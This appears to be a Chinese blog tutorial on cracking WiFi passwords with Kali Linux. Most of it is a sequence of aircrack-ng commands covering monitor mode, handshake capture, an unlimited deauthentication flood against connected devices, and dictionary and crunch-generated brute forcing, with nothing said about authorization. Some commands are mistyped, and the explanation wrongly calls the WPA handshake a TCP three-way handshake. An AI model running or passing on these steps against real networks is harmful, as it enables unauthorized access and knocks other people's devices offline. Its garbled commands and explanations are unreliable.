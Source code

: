 ```yaml
---
title: Kali-Linux 暴力破解WiFi密码
date: 2021/9/28 00:12:50
tags:
  - Kali Linux
  - 教学文档
categories:
  - 程序
cover: https://tse4-mm.cn.bing.net/th/id/OIP-C.8z9BftgYnWvtNa5Vp2Y-CgHaE8?pid=ImgDet&rs=1
copyright_author: Arvin
copyright_author_href: https://github.com/ArvinRoad
copyright_info: 此文章版權歸Arvin所有，如有轉載，請註明來自原作者
---
```


### 前期准备
**硬件设备**：
> 操作机器
> 无线渗透网卡 | 有线渗透网卡

**软件**：
> Kali Linux 系统 （我版本是 2021.1）
> Aircrack-NG
> 爆破字典 （可以是 Kali Linux 自带的）
> 有 wifi 环境下

---

### 实现代码
**首先我们要建立监听热点环境机制**
```shell
# 检查网卡是否连接成功,成功会看到 wlan0 出现
ifconfig -a

#  kill 一切干扰无线网卡监听热点的信号
airmon-ngcheck kill

# wlan0是无线网卡的名称,载入网卡开启网络监听
airmon-ng start wlan0

# 此时无线网卡的名称将变成 wlan0mon ,表示开启网络监听
ifconfig -a

# 该操作是开始监听周围WiFi热点, 显示各个WiFi热点（ctrl C停止监听）
airodump-ng wlan0mon

# 选取WiFi热点进行攻击, 该操作是抓包,当新建一个终端去攻击连接WiFi的设备掉线后，我们抓到的tcp包就是存储在/root/桌面这个路径上
airodump-ng -c 频道(ch) --bssid bssid -w /root/桌面 (用来存储抓包的目录) 网卡名

# 新建一个终端：键入下面代码
aireplay-ng -0 0 -c 客户端MAX(STATION) -a bssid 网卡名 (一般为wlan0mon)

# 此时返回前一个终端,可看到抓到的tcp包,在头部位置
WPA handshake :  bssid 

# 暴力破解, 解压kali自带的字典文件  路径：/usr/share/wordlists/rockyou.txt.gz
gzip -d/usr/share/wordlists/rockyou.txt.gz

# 开始爆破 aircrack-ng -w 字典路径（kali有自带的字典文件，解压路径为:/usr/share/wordlists/rockyou.txt） /root/桌面/桌面-01.cap（握手包）
aircrack-ng -w /usr/share/wordlists/rockyou.txt /root/桌面-0.1.cap
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 88:C3:97:31:E8:9D test-01.cap
aircrack-ng -w <指定字典> -b <目的路由MAC地址> <抓到的握手包>

# 关闭网络监听
airmon-ng stop wlan0mon
```
```shell
# 使用 crunch 
crunch

# 10 10表示制作一个10位数的密码， 012表示密码中包含数字012xy这些元素，/root/12345.txt表示密码文本储存的路径以及名字
crunch 10 10 012 xy>>/root/12345.txt

# 使用aircrack-ng -w /root/12345.txt /root/cap/er8-01.cap（ircrack-ng -w 字典路径 握手包路径） 进行wifi密码破解
```

### 原理流程介绍
**airepaly-ng -0 0 -c 客户端MAX(STATION) -a bssid 网卡名 (一般为wlan0mon) 代码解释**:
> 0为用deauth洪水攻击WiFi设备的次数，0为无限，-0 5则攻击5次。攻击原理是：先让设备掉线，设备会再自动连接，并发这个自动连接过程会进行三次握手，会发送tcp包（里面包含加密的密码数据），我方伪装成WiFi热点去窃取该数据包。我方窃取后即可用字典穷举法暴力破解加密的WiFi密码
> 为什么要穷举，而不是直接从数据包里面获取密码？因为数据包里面的密码是哈希加密的，哈希加密只能正向，不能反向推导，所以需要一个个正向推导，直到找到正确的密码。

> 暴力破解就是穷举法，将密码字典中每一个密码依次去与握手包中的密码进行匹配，直到匹配成功。能否成功破解wifi密码取决于密码字典本身是否包含了这个密码。破解的时间取决于CPU的运算速度以及wifi密码本身的复杂程度。如果WiFi密码设得足够复杂，即使有一个好的密码字典，破解成功也可能要数小时甚至数天。

**暴力破解思路**:
> kali系统接入无线网卡，并通过里面的aircrack程序开始监听周围热点，选择一个WiFi热点，用aircrack去攻击一台连接了该WiFi热点的设备，使其掉线，之后这台设备（手机/电脑）肯定会再次自动来连接，我方利用伪装的挂载设备去接受设备（电脑/手机）发送的tcp三次握手数据包(里面包含了加密的WiFi密码)。此时我们只要用kali里面自带的密码字典文件去穷举该数据包，直到找到WiFi密码为止就成功了。



